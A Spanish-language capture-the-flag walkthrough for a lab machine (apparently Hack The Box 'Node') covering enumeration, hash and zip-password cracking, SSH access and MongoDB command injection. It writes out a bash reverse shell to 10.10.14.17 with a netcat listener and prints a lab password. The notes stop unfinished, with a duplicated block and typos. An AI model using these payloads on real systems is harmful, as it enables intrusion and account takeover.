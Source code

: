 Esta maquina es dificil en un punto final que no terminamos de escribir
## Summary

- IP -> 10.10.10.58
- Ports -> TCP (22, 3000), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 -> Xenial
    - 3000 -> Apache Hadoop


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL:PORT>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **searchsploit ssh user enumeration** Buscamos vulnerabilidades, si encontramos con .py mucho mejor, tenemos que encontrar con la version de ssh 7.2 en python2
- Comando -> **python2 ssh_enum.py 10.10.10.58 root 2>/dev/null** Nos dira si ese usuario es valido en la maquina victima y hacemos que los errores no aparezcan 

- Comando -> **wfuzz -c --hc=404 --hh=3861  -t 200 -w < RUTA DICCIONARIO> < http:// URL:PORT/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
Al no encontrar nada, nos vamos a analizar las peticiones en la pagina web en el Inspector -> Network.

Encontramos una ruta en donde podemos ver que exitsen usuarios y hashes **/api/users**
Esos hashes los podemos crackear en la pagina **crackstation.net** checar con john the ripper.
 Primero probamos en el ssh 
	 - Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh   
Despues en el login de la pagina web.

Una vez adentro de la pagina web nos descargamos el archivo baskup
- Comando -> **file myplace.backup** Nos dice que tipo de archivo es por los magic numbers (List file of signatures) y es un ASCII text
- Comando -> **cat myplace.backup** Observamos el contenio y miramos que es base64
- Comando -> **cat myplace.backup | base64 -d | sponge myplace.backup** Decodificamos el archivo y lo metemos en el mismo con sponge lo que nos resulte de la decodificacion
- Comando -> **file myplace.backup** Nos dice que tipo de archivo es por los magic numbers y ahora es un zip
- Comando -> **mv myplace.backup myplace.zip** Le cambiamos el nombre con terminacion .zip para que sea mas comodo
- Comando -> **unzip myplace.zip** Para hacerle el unzip, pero tiene passwd 
- Comando -> **7z l myplace.zip** (l=ele) Podemos ver el contenido interno del archivo zip

- Comando -> **zip2john myplace.zip > hash** Le pasamos el contenido de un archivo zip con passwd y nos regresara un hash que lo colocaremos en un archivo llamado hash
- Comando -> **john --wordlist=</usr/share/wordlists/rockyou.txt> < HASHFILE>** Aplicamos un ataque de fuerza bruta a un archivo hash (raw-md5, sha256) para que nos devuelva la passwd 'magicword' y asi poder abrir el archivo zip anterior

Nos movemos a la siguiente ruta: **/var/www/myplace/** y miramos el archivo app.js

Y obtenemos una passwd la cual podemos usar para podernos conectar por ssh 
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh  con el usuario Mark 

- Comando -> **lsb_release -a**  Para ver alguna descripcion del Ubuntu 
- Comando -> **id**
- Comando -> **sudo -l**

- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Ahi encontramos un archivo **/usr/local/bin/backup** el cual nos puede ayudar a elevar los privilegios
- Comando -> **la -l /usr/local/bin/backup** Podemos ver los privilegios y lo creo el usuario root y pertenece al grupo admin 
- Comando -> **la -l /home/** Podemos ver los usuarios que tiene home y encontramos 3 (Tom, Mark y Frank)
- Comando -> **groups tom** Miramos a que grupo pertenece cada usuario y nos damos cuenta que Tom pertenece al grupo admin, ademas de que ahi tambien se encuentra la flag de user.txt

Recordemos que esta por detras MongoDB
- Comando -> **ps -faux** Listar procesos en Linux
- Comando -> **mongo -u mark -p j4hb54j3b53kj scheduler** Nos conectaremos a mongo DB a la parte de scheduler, si nos sale un error como el siguiente: 'Failed global initialization' colocamos el siguiente comando **export LC_ALL=C**
	- **>show colletions** 
	- **>db.tasks.find()** Mirar si hay algun comando 
	- **>db.task.insert({"cmd": "touch /tmp/example"})** Para insertar un comando 
- Comando -> **ls -l /tmp** Podemos ver el archivo creado por el comando que habiamos ejecutado anteriormente y este lo hara en este caso por el usuario Tom

Ahora que ya tenemos una via potencial, podemos meter una revershell
- Comando -> **mongo -u mark -p j4hb54j3b53kj scheduler** Nos conectaremos a mongo DB a la parte de scheduler
	-  **>db.task.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'"})** Para insertar un comando que sera una revershell
- Comando -> **nc -nlcp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux 
Ahora somos el usuario Tom, hacemos tratamiento de la consola y buscamos la flag user.txt

## Root
- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Ahi encontramos un archivo **/usr/local/bin/backup** el cual nos puede ayudar a elevar los privilegios
- Comando -> **la -l /usr/local/bin/backup** Podemos ver los privilegios y lo creo el usuario root y pertenece al grupo admin 
- Comando -> **la -l /home/** Podemos ver los usuarios que tiene home y encontramos 3 (Tom, Mark y Frank)
- Comando -> **groups tom** Miramos a que grupo pertenece cada usuario y nos damos cuenta que Tom pertenece al grupo admin, ademas de que ahi tambien se encuentra la flag de user.txt La diferencia, es que ahora somos Tom
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0

- Comando -> **ltrace o strace** Te permiten ver que es lo que pasa cuando se ejecuta un comando 
- Comando -> **ltrace backup** Miramos que pasa cuando ejecutamos el backup
- Comando -> **strace backup** Miramos que pasa cuando ejecutamos el backup con mas detalle

Empezamos a agregar valores por lo que serian 3 tipos de valores diferentes para poder hacer funcionar el File. 